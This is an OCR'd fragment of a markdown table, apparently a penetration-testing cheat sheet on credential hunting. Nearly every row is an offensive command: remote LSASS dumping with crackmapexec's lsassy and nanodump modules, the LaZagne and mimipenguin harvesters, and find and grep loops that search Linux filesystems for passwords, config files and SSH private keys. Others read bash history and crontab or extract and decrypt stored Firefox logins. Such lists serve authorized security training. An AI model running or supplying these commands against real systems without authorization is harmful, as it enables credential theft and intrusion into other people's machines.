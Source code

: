 | ``crackmapexec smb IP -u administrator -p pass -M lsassy ` (Need --local-auth if user is local account)` | Dump LSASS using Lsassy module remotely |

| `` crackmapexec smb 192.168.255.131 -u administrator -p pass -M nanodump`` | Dump LSASS using nanodump module |

| ``./username-anarchy -i /home/ltnbob/names.txt`` | Creating a Custom list of Usernames |

| ``start lazagne.exe all`` | We can also take advantage of third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne/releases/) to quickly discover credentials that web browsers or other installed applications may insecurely store. -CMD |

| `-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------------------------------------------------------------------- |

| ``for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done`` | Script that can be used to find .conf, .config and .cnf files on a Linux system. |

| ``for i in $(find / -name *.cnf 2>/dev/null \| grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null \| grep -v "\#";done`` | Script that can be used to find credentials in specified file types. |

| ``for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share\|man";done`` | Script that can be used to find common database files. |

| ``find /home/* -type f -name "*.txt" -o ! -name "*.*"`` | Uses Linux-based find command to search for text files. |

| ``for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share";done`` | Script that can be used to search for common file types used with scripts. |

| ``for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done`` | Script used to look for common types of documents. |

| ``cat /etc/crontab`` | Uses Linux-based cat command to view the contents of crontab in search for credentials. |

| ``ls -la /etc/cron.*/`` | Uses Linux-based ls -la command to list all files that start with `cron` contained in the etc directory. |

| ``grep -rnw "PRIVATE KEY" /* 2>/dev/null \| grep ":1"`` | Uses Linux-based command grep to search the file system for key terms `PRIVATE KEY` to discover SSH keys. |

| ``grep -rnw "PRIVATE KEY" /home/* 2>/dev/null \| grep ":1"`` | Uses Linux-based grep command to search for the keywords `PRIVATE KEY` within files contained in a user's home directory. |

| ``grep -rnw "ssh-rsa" /home/* 2>/dev/null \| grep ":1"`` | Uses Linux-based grep command to search for keywords `ssh-rsa` within files contained in a user's home directory. |

| ``tail -n5 /home/*/.bash*`` | Uses Linux-based tail command to search the through bash history files and output the last 5 lines. |

| ``python3 mimipenguin.py`` | Runs Mimipenguin.py using python3. |

| ``bash mimipenguin.sh`` | Runs Mimipenguin.sh using bash. |

| ``python2.7 lazagne.py all`` | Runs Lazagne.py with all modules using python2.7 |

| ``ls -l .mozilla/firefox/ \| grep default `` | Uses Linux-based command to search for credentials stored by Firefox then searches for the keyword `default` using grep. |

| ``cat .mozilla/firefox/1bplpd86.default-release/logins.json \| jq .`` | Uses Linux-based command cat to search for credentials stored by Firefox in JSON. |

| ``python3.9 firefox_decrypt.py`` | Runs Firefox_decrypt.py to decrypt any encrypted credentials stored by Firefox. Program will run using python3.9. |
